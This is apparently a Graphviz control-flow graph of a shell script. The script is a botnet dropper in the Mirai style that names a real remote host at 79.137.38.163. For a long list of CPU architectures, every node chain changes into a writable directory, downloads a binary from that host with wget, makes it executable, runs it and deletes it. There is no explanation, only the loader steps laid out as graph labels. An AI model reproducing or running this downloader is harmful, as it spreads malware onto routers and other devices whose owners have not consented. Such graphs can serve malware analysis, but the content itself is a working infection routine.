 digraph {
0 [label="ulimit -n 712 "];
0 -> 0
2 [label="path=http://79.137.38.163/bin "];
2 -> 2
4 [label="mips=SYSTEMmips "];
4 -> 6 [label="N,"];
6 [label="mipsel=SYSTEMmipsel "];
6 -> 8 [label="N,"];
8 [label="armv4l=SYSTEMarmv4l "];
8 -> 10 [label="N,"];
10 [label="armv5l=SYSTEMarmv5l "];
10 -> 10
12 [label="armv6l=SYSTEMarmv6l "];
12 -> 12
14 [label="armv7l=SYSTEMarmv7l "];
14 -> 14
16 [label="i586=SYSTEMi586 "];
16 -> 16
18 [label="i686=SYSTEMi686 "];
18 -> 18
20 [label="m68k=SYSTEMm68k "];
20 -> 20
22 [label="sh4=SYSTEMsh4 "];
22 -> 22
24 [label="powerpc=SYSTEMpowerpc "];
24 -> 24
26 [label="powerpc440fp=SYSTEMpowerpc440fp "];
26 -> 28 [label="N,"];
28 [label="x86_64=SYSTEMx86_64 "];
28 -> 28
30 [label="[ -f /bin/busybox ] "];
30 -> 560 [label="SC,N,if,"];
560 [label="cd /tmp "];
560 -> 562 [label=";,then,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 44 [label=";,"];
44 [label="/bin/busybox wget $path/$mips "];
44 -> 46 [label=";,"];
46 [label="/bin/busybox cat $mips busybox "];
46 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 68 [label=";,"];
68 [label="/bin/busybox wget $path/$mipsel "];
68 -> 70 [label=";,"];
70 [label="/bin/busybox cat $mipsel busybox "];
70 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 92 [label=";,"];
92 [label="/bin/busybox wget $path/$armv4l "];
92 -> 94 [label=";,"];
94 [label="/bin/busybox cat $armv4l busybox "];
94 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 116 [label=";,"];
116 [label="/bin/busybox wget $path/$armv5l "];
116 -> 118 [label=";,"];
118 [label="/bin/busybox cat $armv5l busybox "];
118 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 140 [label=";,"];
140 [label="/bin/busybox wget $path/$armv6l "];
140 -> 142 [label=";,"];
142 [label="/bin/busybox cat $armv6l busybox "];
142 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 164 [label=";,"];
164 [label="/bin/busybox wget $path/$armv7l "];
164 -> 166 [label=";,"];
166 [label="/bin/busybox cat $armv7l busybox "];
166 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 188 [label=";,"];
188 [label="/bin/busybox wget $path/$i586 "];
188 -> 190 [label=";,"];
190 [label="/bin/busybox cat $i586 busybox "];
190 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 212 [label=";,"];
212 [label="/bin/busybox wget $path/$i686 "];
212 -> 214 [label=";,"];
214 [label="/bin/busybox cat $i686 busybox "];
214 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 236 [label=";,"];
236 [label="/bin/busybox wget $path/$m68k "];
236 -> 238 [label=";,"];
238 [label="/bin/busybox cat $m68k busybox "];
238 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 260 [label=";,"];
260 [label="/bin/busybox wget $path/$sh4 "];
260 -> 262 [label=";,"];
262 [label="/bin/busybox cat $sh4 busybox "];
262 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 284 [label=";,"];
284 [label="/bin/busybox wget $path/$powerpc "];
284 -> 286 [label=";,"];
286 [label="/bin/busybox cat $powerpc busybox "];
286 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 308 [label=";,"];
308 [label="/bin/busybox wget $path/$powerpc440fp "];
308 -> 310 [label=";,"];
310 [label="/bin/busybox cat $powerpc440fp busybox "];
310 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 332 [label=";,"];
332 [label="/bin/busybox wget $path/$x86_64 "];
332 -> 334 [label=";,"];
334 [label="/bin/busybox cat $x86_64 busybox "];
334 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,else,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 354 [label="||,"];
354 [label="wget $path/$mips "];
354 -> 356 [label=";,"];
356 [label="chmod 777 $mips "];
356 -> 358 [label=";,"];
358 [label="./$mips "];
358 -> 360 [label=";,"];
360 [label="rm -rf $mips "];
360 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 372 [label="||,"];
372 [label="wget $path/$mipsel "];
372 -> 374 [label=";,"];
374 [label="chmod 777 $mipsel "];
374 -> 376 [label=";,"];
376 [label="./$mipsel "];
376 -> 378 [label=";,"];
378 [label="rm -rf $mipsel "];
378 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 390 [label="||,"];
390 [label="wget $path/$armv4l "];
390 -> 392 [label=";,"];
392 [label="chmod 777 $armv4l "];
392 -> 394 [label=";,"];
394 [label="./$armv4l "];
394 -> 396 [label=";,"];
396 [label="rm -rf $armv4l "];
396 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 408 [label="||,"];
408 [label="wget $path/$armv5l "];
408 -> 410 [label=";,"];
410 [label="chmod 777 $armv5l "];
410 -> 412 [label=";,"];
412 [label="./$armv5l "];
412 -> 414 [label=";,"];
414 [label="rm -rf $armv5l "];
414 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 426 [label="||,"];
426 [label="wget $path/$armv6l "];
426 -> 428 [label=";,"];
428 [label="chmod 777 $armv6l "];
428 -> 430 [label=";,"];
430 [label="./$armv6l "];
430 -> 432 [label=";,"];
432 [label="rm -rf $armv6l "];
432 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 444 [label="||,"];
444 [label="wget $path/$armv7l "];
444 -> 446 [label=";,"];
446 [label="chmod 777 $armv7l "];
446 -> 448 [label=";,"];
448 [label="./$armv7l "];
448 -> 450 [label=";,"];
450 [label="rm -rf $armv7l "];
450 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 462 [label="||,"];
462 [label="wget $path/$i586 "];
462 -> 464 [label=";,"];
464 [label="chmod 777 $i586 "];
464 -> 466 [label=";,"];
466 [label="./$i586 "];
466 -> 468 [label=";,"];
468 [label="rm -rf $i586 "];
468 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 480 [label="||,"];
480 [label="wget $path/$i686 "];
480 -> 482 [label=";,"];
482 [label="chmod 777 $i686 "];
482 -> 484 [label=";,"];
484 [label="./$i686 "];
484 -> 486 [label=";,"];
486 [label="rm -rf $i686 "];
486 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 498 [label="||,"];
498 [label="wget $path/$m68k "];
498 -> 500 [label=";,"];
500 [label="chmod 777 $m68k "];
500 -> 502 [label=";,"];
502 [label="./$m68k "];
502 -> 504 [label=";,"];
504 [label="rm -rf $m68k "];
504 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 516 [label="||,"];
516 [label="wget $path/$sh4 "];
516 -> 518 [label=";,"];
518 [label="chmod 777 $sh4 "];
518 -> 520 [label=";,"];
520 [label="./$sh4 "];
520 -> 522 [label=";,"];
522 [label="rm -rf $sh4 "];
522 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 534 [label="||,"];
534 [label="wget $path/$powerpc "];
534 -> 536 [label=";,"];
536 [label="chmod 777 $powerpc "];
536 -> 538 [label=";,"];
538 [label="./$powerpc "];
538 -> 540 [label=";,"];
540 [label="rm -rf $powerpc "];
540 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 552 [label="||,"];
552 [label="wget $path/$powerpc440fp "];
552 -> 554 [label=";,"];
554 [label="chmod 777 $powerpc440fp "];
554 -> 556 [label=";,"];
556 [label="./$powerpc440fp "];
556 -> 558 [label=";,"];
558 [label="rm -rf $powerpc440fp "];
558 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 570 [label="||,"];
570 [label="wget $path/$x86_64 "];
570 -> 572 [label=";,"];
572 [label="chmod 777 $x86_64 "];
572 -> 574 [label=";,"];
574 [label="./$x86_64 "];
574 -> 575 [label=";,"];
}
